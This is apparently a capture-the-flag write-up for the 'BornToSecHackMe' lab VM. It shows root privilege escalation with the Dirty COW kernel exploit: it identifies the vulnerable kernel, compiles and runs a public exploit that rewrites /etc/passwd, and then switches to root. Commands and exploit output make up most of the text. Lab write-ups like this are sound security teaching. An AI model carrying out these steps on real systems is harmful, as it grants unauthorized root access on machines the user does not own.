 # Writeup 2
We start with writeup1 after logging in as **laurie**  
```  
$ ssh laurie@[VM IP]  
laurie@[VM IP]'s password: [password]  
laurie@BornToSecHackMe:~$ uname -a  
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux  
```  

Since linux version is 3.2.0-91 (https://ubuntu.com/security/CVE-2016-5195) we can use the famous exploit ```dirty cow``` (https://dirtycow.ninja/)  
```  
Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka “Dirty COW.”
```  

So, dirty cow allows local users to gain privileges using incorrect copy-on-write (COW) handling.  
To use a dirty cow, we find the implementation of the exploit (https://github.com/FireFart/dirtycow/blob/master/dirty.c)  
We download the file and modify the code (```const char *salt = "root";```, ```user.username = "root";```).  

``` 
laurie@BornToSecHackMe:~$ cd /tmp  
laurie@BornToSecHackMe:/tmp$ vim dirty.c  
<paste the code>  
laurie@BornToSecHackMe:/tmp$ gcc dirty.c -o dirty -pthread -lcrypt  
laurie@BornToSecHackMe:/tmp$ ./dirty  
/etc/passwd successfully backed up to /tmp/passwd.bak  
Please enter the new password:  
Complete line:  
root:roTAcFXYxvIuQ:0:0:pwned:/root:/bin/bash  

mmap: b7fda000  
madvise 0  

ptrace 0  
Done! Check /etc/passwd to see if the new user was created.  
You can log in with the username 'root' and the password 'telmanIsCool'.  


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd  
Done! Check /etc/passwd to see if the new user was created.  
You can log in with the username 'root' and the password 'telmanIsCool'.  


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd  
```
Now the root password is telmanIsCool!  
```
laurie@BornToSecHackMe:/tmp$ su root  
Password:  
root@BornToSecHackMe:/tmp# cd  
root@BornToSecHackMe:~# cat README  
CONGRATULATIONS !!!!  
To be continued...  
```
**🏁 Finally we are Root**
